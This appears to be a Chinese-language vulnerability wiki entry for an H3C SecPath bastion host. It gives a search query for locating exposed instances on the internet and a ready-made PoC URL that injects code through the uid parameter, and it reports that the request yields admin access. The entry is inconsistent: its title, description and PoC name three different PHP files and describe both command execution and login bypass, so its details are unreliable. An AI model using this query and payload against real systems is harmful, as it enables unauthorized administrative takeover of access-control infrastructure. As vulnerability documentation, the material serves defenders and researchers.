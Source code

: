 # H3C SecParh堡垒机 data_provider.php 远程命令执行漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

<a-checkbox checked>H3C SecParh堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="H3C-SecPath-运维审计系统" && body="2018"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210616132951212.png)



POC验证的Url为

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/h3c-1.png)



成功获取admin权限



## 